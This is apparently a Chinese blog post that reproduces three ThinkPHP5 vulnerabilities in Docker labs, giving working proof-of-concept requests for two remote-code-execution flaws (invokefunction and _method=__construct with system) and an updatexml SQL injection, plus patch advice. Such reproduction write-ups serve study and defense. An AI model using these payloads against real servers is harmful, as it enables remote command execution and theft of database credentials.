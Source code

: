 ```yaml
---
title: Thinkphp5漏洞总结
date: 2019-03-13 16:45:28
categories: 中间件漏洞
tags: 漏洞复现

---
```

<blockquote class="blockquote-center">人生是个圆，有的人走了一辈子也没有走出命运画出的圆圈，其实，圆上的每一个点都有一条腾飞的切线。</blockquote>

<div align="middle"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=194405&auto=1&height=66"></iframe></div>



# ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞



## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。



## 漏洞等级

高级

## 漏洞危害

远程代码执行



## 漏洞检测方法

利用POC去试验是否存在该漏洞



## 漏洞利用方法

启动docker环境:

```
docker-compose up -d
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0zd9tfx20j30o30njab8.jpg)

然后修改URL中的参数,构造POC,成功执行命令

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0ze9m9nofj31710olmyw.jpg)

发送的数据包为:

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`
```

也可以执行其他命令,只需替换vars[0]的值即可



## 漏洞修复方案:

1,及时去thinkphp官网修补漏洞

2,更新到最新版



# ThinkPHP5 5.0.23 远程代码执行漏洞



## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其5.0.23以前的版本中，在获取method的方法中没有正确处理方法名，导致攻击者可以调用Request类任意方法并构造利用链，从而导致远程代码执行漏洞。



## 漏洞等级

高级

## 漏洞危害

远程代码执行



## 漏洞检测方法

利用POC去试验是否存在该漏洞



## 漏洞利用方法

启动docker环境:

```
docker-compose up -d
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0zd9tfx20j30o30njab8.jpg)

然后刷新页面,构造POC,成功执行命令

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0zd4qm4p3j30vr0g6q4a.jpg)

发送的数据包为:

```
POST /index.php?s=captcha HTTP/1.1
Host: 192.168.136.128:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

也可以执行其他命令,只需替换server[REQUEST_METHOD]的值即可



## 漏洞修复方案:

1,及时去thinkphp官网修补漏洞

2,更新到最新版



# ThinkPHP5版本 SQL注入漏洞和敏感信息泄露漏洞



## 漏洞描述

ThinkPHP5版本存在一个鸡肋的SQL注入漏洞,可以获取到当前用户和密码以及数据库名等信息,详情参考:[<https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html>]()

## 漏洞等级

低危



## 漏洞危害

获取到数据库配置信息(用户名,密码,数据库名,主机名)



## 漏洞检测方法

利用POC去试验是否存在该漏洞



## 漏洞利用方法

启动docker环境:

```
docker-compose up -d
```

如果出现以下错误:

```
ERROR: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)
```

那么需要去修改`/etc/resolv.conf`修改为:

```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 10.0.0.10
```



访问以下URL进入网站,出现用户名表示成功访问:

```
http://Your-Ip/index.php?ids[]=1&ids[]=2
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0zerz57y4j30i00fojro.jpg)

然后使用xpath报错的方法去构造POC,成功执行命令

请求的URL为:

http://192.168.136.128/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1



```
http://your-ip:8080/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1
```

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0zf2z9v1ej30og0kf3zk.jpg)



## 漏洞修复方案:

1,及时去thinkphp官网修补漏洞

2,更新到最新版